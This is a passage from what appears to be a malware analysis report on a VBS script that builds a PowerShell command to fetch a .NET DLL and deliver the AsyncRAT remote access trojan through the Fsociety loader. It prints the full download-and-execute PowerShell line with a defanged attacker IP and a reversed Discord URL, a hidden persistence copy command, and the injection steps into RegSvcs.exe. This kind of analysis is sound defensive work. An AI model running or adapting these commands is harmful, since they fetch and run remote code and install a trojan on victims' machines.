 





Figure 8: Content of the VBS script
The VBS script contains a significant amount of junk code, but has several replace functions to construct the PowerShell execution.








Figure 9: Replace functions to replace junk code by the original behavior
The content was built under the variable “OXVTEUOWQPEFWQ”, as shown in figure 9 above. After creating that content, figure 8 shows the variable “YISMXXAPAUXCGFI”, which is set as a WScript object.
After decoding the code, to better understand its behavior, we can see that a part of the logic - the URL shown in the above image - is actually reversed.








Figure 10: Part of the VBS code decoded
 








Figure 11: A closer look at part of the VBS code, decoded
The final payload executed is powershell.exe, with the following command line parameters:

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" [Byte[]] $rOWg = [system.Convert]::FromBase64string((New-Object Net.WebClient).DownloadString('hxxp://172.174.176[.]153/dll/Dll.ppam'));[System.AppDomain]::CurrentDomain.Load($rOWg).GetType('Fiber.Home').GetMethod('VAI').Invoke($null, [object[]] ('txt.ysa/3383903646370010701/3046420575525667501/stnemhcatta/moc.ppadrocsid.ndc//:sptth'))

First, PowerShell downloads and executes the decoded base64 content of hxxp://172.174.176[.]153/dll/Dll.ppam, which is a .NET DLL encoded, as shown in figure 12.









Figure 12: Base64 content from the server, called using powershell.exe
Next, it uses GetType(‘Fiber.home’).GetMethod(‘VAI’), to load the VAI method from the DLL downloaded previously. The logic of this method is as follows:

To create a copy of the Visual Basic Script called “Asuntos_DIAN_N°6440005403992837L2088970004-01-02-2023-pdf.vbs” in C:\Windows\Temp\OneDrive.vbs if it already doesn’t exist using PowerShell.
Powershell.exe -WindowStyle Hidden Copy-Item -Path *.vbs -Destination C:\Windows\Temp\OneDrive.vbs


Download the content of hxxp://172.174.176[.]153/rump/Rump.xls (Fsociety)
Replace characters of the content downloaded
Reverse the text of the second URL in the PowerShell command and download its content (hxxps://cdn.discordapp[.]com/attachments/1057665255750246403/1070100736463093833/asy[.]txt (AsyncRAT payload)
Create a string with the content “C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe”
Load the Fsociety DLL into memory, passing two parameters:
RegSvcs path
AsyncRAT payload
